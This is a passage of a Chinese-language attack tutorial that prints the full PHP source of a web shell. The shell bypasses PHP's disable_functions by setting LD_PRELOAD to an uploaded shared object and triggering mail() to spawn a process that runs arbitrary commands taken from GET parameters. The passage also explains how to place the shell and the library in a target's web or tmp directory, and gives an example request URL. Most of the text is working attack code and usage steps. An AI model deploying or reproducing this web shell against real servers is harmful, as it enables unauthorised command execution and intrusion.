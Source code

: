 bypass_disablefunc.php 的源码如下:

```php+HTML
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);    // 通过环境变量 EVIL_CMDLINE 向 bypass_disablefunc_x64.so 传递具体执行的命令行信息

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");
	// error_log("", 1, "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```

对于 bypass_disablefunc.php，权限上传到 Web 目录的直接访问，无权限的话可以传到 tmp 目录后用include 等函数来包含，并且需要用 GET 方法提供三个参数：

且需要用 GET 方法提供三个参数：

- cmd 参数：待执行的系统命令，如 id 命令。
- outpath 参数：保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点。
- sopath 参数：指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。

可以看到，bypass_disablefunc.php 的源码也使用了 mail() 函数，但是无需安装 sendmail，只需要 PHP 支持 putenv()、mail() 即可。如果 mail() 函数也被禁用了，那我们可以在寻找其他可以启动新进程的函数即可，比如 error_log() 等。

使用时，我们想办法将 bypass_disablefunc.php 和 bypass_disablefunc_x64.so 传到目标**有权限**的目录中：

```
[root@vuln html]# pwd
/var/www/html
[root@vuln html]# ls
bypass_disablefunc.php  bypass_disablefunc_x64.so
[root@vuln html]#
```

然后将bypass_disablefunc.php包含进来并使用GET方法提供所需的三个参数：

浏览器访问:

```
172.16.42.151/bypass_disablefunc.php?cmd=ls&outpath=/var/tmp/xxxx&sopath=/var/www/html/bypass_disablefunc_x64.so
```

